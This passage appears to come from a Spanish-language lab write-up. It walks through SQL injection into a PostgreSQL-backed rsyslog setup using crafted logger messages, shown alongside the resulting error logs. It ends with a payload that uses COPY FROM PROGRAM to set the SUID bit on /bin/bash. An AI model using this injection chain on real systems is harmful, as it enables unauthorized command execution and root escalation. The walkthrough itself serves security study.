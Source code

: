 Ahora en el log me aparece un warning

```null
roy@zetta:/var/log/postgresql$ tail -f postgresql-11-main.log
2023-02-22 13:03:20.774 EST [15053] postgres@syslog ERROR:  syntax error at or near "2023" at character 71
2023-02-22 13:03:20.774 EST [15053] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' \'','2023-02-22 18:03:20')
2023-02-22 13:03:20.780 EST [15054] postgres@syslog ERROR:  syntax error at or near "2023" at character 71
2023-02-22 13:03:20.780 EST [15054] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' \'','2023-02-22 18:03:20')
2023-02-22 13:03:20.785 EST [15055] postgres@syslog WARNING:  there is no transaction in progress
tail: postgresql-11-main.log: file truncated
```

La idea es maniobrar sobre esté para aislar los dos campos y comentar el resto para que no entren en conflicto

```null
roy@zetta:/etc/rsyslog.d$ logger -p local7.info "campo1',campo2);-- -"
```

```null
roy@zetta:/var/log/postgresql$ tail -f postgresql-11-main.log
2023-02-22 13:06:09.109 EST [15078] postgres@syslog ERROR:  column "campo2" does not exist at character 75
2023-02-22 13:06:09.109 EST [15078] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' campo1\',campo2)-- -','2023-02-22 18:06:09')
2023-02-22 13:06:09.120 EST [15088] postgres@syslog ERROR:  column "campo2" does not exist at character 75
2023-02-22 13:06:09.120 EST [15088] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' campo1\',campo2)-- -','2023-02-22 18:06:09')
2023-02-22 13:06:09.128 EST [15089] postgres@syslog WARNING:  there is no transaction in progress
2023-02-22 13:06:32.997 EST [15089] postgres@syslog ERROR:  column "campo2" does not exist at character 75
2023-02-22 13:06:32.997 EST [15089] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' campo1\',campo2);-- -','2023-02-22 18:06:32')
2023-02-22 13:06:33.008 EST [15092] postgres@syslog ERROR:  column "campo2" does not exist at character 75
2023-02-22 13:06:33.008 EST [15092] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' campo1\',campo2);-- -','2023-02-22 18:06:32')
2023-02-22 13:06:33.019 EST [15093] postgres@syslog WARNING:  there is no transaction in progress
```

Para que el log no lo reporte, se puede utilizar un valor nulo. Eso significa que no hay ningún error y está todo funcionando correctamente

```null
roy@zetta:/etc/rsyslog.d$ logger -p local7.info "campo1',NULL);-- -"
```

En ```Postgresql```, se pueden ejecutar comandos a nivel de sistema en caso de contar con el privilegio. Para que no provoquen un error las comillas simples, las respresento utilizando ```$$```

```null
roy@zetta:/etc/rsyslog.d$ logger -p local7.info "campo1',NULL); DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM \$$ chmod u+s /bin/bash \$$;-- -"
```
